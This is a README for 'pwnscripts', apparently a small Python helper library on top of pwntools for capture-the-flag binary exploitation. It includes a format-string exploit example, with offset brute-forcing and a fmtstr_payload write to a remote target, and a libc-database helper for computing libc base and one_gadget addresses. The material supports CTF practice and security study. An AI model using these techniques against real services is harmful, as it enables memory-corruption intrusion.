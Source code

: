 # pwnscripts
Very simple script(s) to hasten binary exploit creation. To use, replace `from pwn import *` with `from pwnscripts import *`, e.g.

```python
from pwnscripts import *
context.binary = './my_challenge'
...
```

It's messy and it works. Current features:
  * `find_printf_offset_*`: helper functions to bruteforce wanted printf offsets. Important ones:
    1. _buffer: find the offset to whatever's manipulating the input format string. A common example:
    2. _libc/_PIE: find a libc/PIE address with a specific offset
    ```python
    '''Imagine a C program like the following:
    int main() {    # amd64
        char s[64];
        memset(s, 0, 64);
        fgets(s, 50, stdin);
        printf("%p\n", s)
        printf(s);
        if (*(int*)(s+56) == 0x12345678) win();
    }'''
    def printf(l: str): # First, a function to abstract out the printf() i/o for pwnscripts
        r = remote(...)
        r.sendafter('\n', l)
        return r.recvline()
    # Let's say we want to write to s[56]. We first find the printf() offset to s[]:
    offset = find_printf_offset_buffer(printf)
    # Then we use pwntools' fmtstr_payload to proceed:
    r = remote(...)
    addr = extract_first_hex(r.recvline())  #another pwnscripts func
    payload = fmtstr_payload(offset, {addr: 0x12345678})
    r.sendline(payload)
    r.interactive()
    ```
  * `libc_db`: a basic class for dealing with the libc-database project
    ```python
    db = libc_db('/path/to/libc-database', '<libc_id>') # e.g. libc6_2.27-3ubuntu1.2_amd64
    one_gadget = db.select_gadget() # Console will prompt for a selection. Behaviour may change.
    ... <insert exploit code to leak libc address here> ...
    # Let's say the libc address of `puts` was leaked as `libc_puts`
    libc_base = db.calc_base('puts', libc_puts)
    ```
  * `extract_(all|first)_hex`: simple wrapper for a hex value regex

## I tried using it; it doesn't work!

File in an [issue](https://github.com/152334H/pwnscripts/issues), if you can. With a userbase of 1, it's hard to guess what might go wrong, but potentially:
 * The software is broken
 * Python is outdated
 * The challenge is neither i386 or amd64; other architectures aren't implemented (yet).
 * The challenge is amd64, but `context.arch` wasn't set to `amd64`

     * Set `context.binary` appropriately, or set `context.arch` manually if no binary is given
 * The printf offset bruteforcing range is insufficient

     * Overwrite `PWNSCRIPT_PRINTF_MAX` with an appropriate value.

 * The printf offset lies on an unaligned boundary. Some challenges are designed this way; workaround planned.

## Updates

20-08

Added a wrapper object for libc-database: the `libc_db` object. This is mostly a reinvention of tools like `LibcSearcher`, although I have yet to see another project tack on `one_gadget` searching, which is a (hacky) feature added for `libc_db`.

Extended readme.

20-06

Added module packaging stuff, so that `pip install -e .` works

You can now see a test example of this library in `test.py`.

Gradual updates expected as I continue to do pwn.
